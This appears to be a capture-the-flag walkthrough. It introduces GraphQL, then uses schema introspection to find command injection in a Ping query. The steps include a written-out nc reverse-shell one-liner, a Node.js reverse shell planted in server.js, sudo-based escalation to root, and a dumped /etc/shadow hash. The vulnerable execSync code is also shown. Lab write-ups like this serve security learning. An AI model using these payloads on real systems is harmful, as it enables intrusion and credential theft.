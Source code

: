 > GraphQL

GraphQL is a way to interact with APIs. It is not a database, nor a database language, it is simply a way to interact with APIs.  For example let's say you were trying to figure out the nutritional information of a box of cereal given that cereal's name.

In a normal REST api, you might do something like this

```bash
curl cereal.api -d "title='Lucky Charms'"
```

and you would receive a JSON response looking like

```js
{
"sugar": "50000000g"
"protein": "0g"
...
}
```

In GraphQL, your query would look like this

```js
{
Cereal(name: "Lucky Charms")
  {
   sugar
   protein
  }
 
}
```

# Task - Get hash of user Para using GraphIQL interface

Let's extract some sensitive information from `__schema`.

```js
{__schema{types{name description}}}`
```

```json
        {
          "name": "Ping",
          "description": null
        },
```

We got something interesting. Let's get the name of every field for the type Ping.

```js
{ __type(name: "Ping"){ fields { name } } }`
```

```json
{
  "data": {
    "__type": {
      "fields": [
        {
          "name": "ip"
        },
        {
          "name": "output"
        }
      ]
    }
  }
}
```

```js
{ Ping(ip: "10.8.107.21") { ip output } } 
```

And we can ping ourselves let's try for RCE.

```js
{ Ping(ip: "; ls") { ip output } } 
```

And we got it!

```json
{
  "data": {
    "Ping": {
      "ip": "; ls",
      "output": "node_modules\npackage-lock.json\nserver.js\n"
    }
  }
}
```

So let's try to get a shell!

```js
{ Ping(ip: "; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.107.21 9001 >/tmp/f") { ip output } } 
```

And here is the code for ping query in `server.js`

```js
var schema = buildSchema(`
    type Query {
        Ping(ip: String!): Ping
        
    },
    type Ping {
        ip: String
        output: String
    }
`);
var pingIP = function(args) { 
    arr = {"ip": args.ip}
    arr.output = exec.execSync("ping -c 3 " + args.ip).toString()
    return arr;
}

var root = {
    Ping: pingIP,
    
};
```

```bash
sudo -l
Matching Defaults entries for para on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User para may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /usr/bin/node /home/para/server.js
```

Let's drop a NodeJS reverse shell in server.js. 

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.8.107.21", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

```bash
sudo /usr/bin/node /home/para/server.js
```

And we got a shell as root!🔥 

# Hash of para - /etc/shadow

```bash
para:$1$CHyLRSmg$QAvdWTC70dsIHuM5KmTf20:18535:0:99999:7:::
```